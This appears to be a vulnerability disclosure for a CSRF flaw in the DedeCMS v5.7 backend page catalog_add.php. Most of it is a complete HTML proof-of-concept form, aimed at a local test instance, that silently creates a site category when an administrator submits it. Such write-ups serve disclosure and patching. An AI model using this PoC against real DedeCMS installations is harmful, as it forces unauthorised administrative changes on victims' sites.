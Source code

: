 DedeCMSv5.7_ Multiple CRSF vulnerabilities exist in the 110 backend management interface, such as adding a page classification interface in "/catalog_add. php".Grasping the corresponding data packets, deleting useless verification parameters from cookies, and replaying multiple times can reveal that multiple classification labels have been established. Therefore, it is highly likely that there is a CSRF attack here

![CSRF-raw](E:\360MoveData\Users\HideInDarkness\Desktop\dede_github\dedecms\v5.7_110-CSRF.assets\CSRF-raw.png)

Build the following CSRF POC data package, save it in the form of. html, access the relevant HTML files, and click the button

```php
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:9600/v7_110/dede/catalog_add.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="reid" value="0" />
      <input type="hidden" name="topid" value="0" />
      <input type="hidden" name="issend" value="1" />
      <input type="hidden" name="ishidden" value="0" />
      <input type="hidden" name="channeltype" value="1" />
      <input type="hidden" name="typename" value="TEST" />
      <input type="hidden" name="typeenglishname" value="test" />
      <input type="hidden" name="sortrank" value="50" />
      <input type="hidden" name="corank" value="0" />
      <input type="hidden" name="nextdir" value="&#123;cmspath&#125;&#47;a" />
      <input type="hidden" name="typedir" value="" />
      <input type="hidden" name="referpath" value="parent" />
      <input type="hidden" name="isdefault" value="1" />
      <input type="hidden" name="defaultname" value="index&#46;html" />
      <input type="hidden" name="ispart" value="0" />
      <input type="hidden" name="cross" value="0" />
      <input type="hidden" name="crossid" value="" />
      <input type="hidden" name="moresite" value="0" />
      <input type="hidden" name="siteurl" value="" />
      <input type="hidden" name="dfstyle" value="&#123;style&#125;" />
      <input type="hidden" name="tempindex" value="&#123;style&#125;&#47;index&#95;article&#46;htm" />
      <input type="hidden" name="templist" value="&#123;style&#125;&#47;list&#95;article&#46;htm" />
      <input type="hidden" name="temparticle" value="&#123;style&#125;&#47;article&#95;article&#46;htm" />
      <input type="hidden" name="namerule" value="&#123;typedir&#125;&#47;&#123;Y&#125;&#47;&#123;M&#125;&#123;D&#125;&#47;&#123;aid&#125;&#46;html" />
      <input type="hidden" name="namerule2" value="&#123;typedir&#125;&#47;list&#95;&#123;tid&#125;&#95;&#123;page&#125;&#46;html" />
      <input type="hidden" name="seotitle" value="" />
      <input type="hidden" name="typebigimg" value="" />
      <input type="hidden" name="typesmallimg" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="hidden" name="content" value="" />
      <input type="hidden" name="imageField&#46;x" value="34" />
      <input type="hidden" name="imageField&#46;y" value="18" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

It can be observed that a custom tab bar appeared on the originally empty website column management interface, and the attack was successful

![env_raw](E:\360MoveData\Users\HideInDarkness\Desktop\dede_github\dedecms\v5.7_110-CSRF.assets\env_raw.png)

![env_click](E:\360MoveData\Users\HideInDarkness\Desktop\dede_github\dedecms\v5.7_110-CSRF.assets\env_click.png)

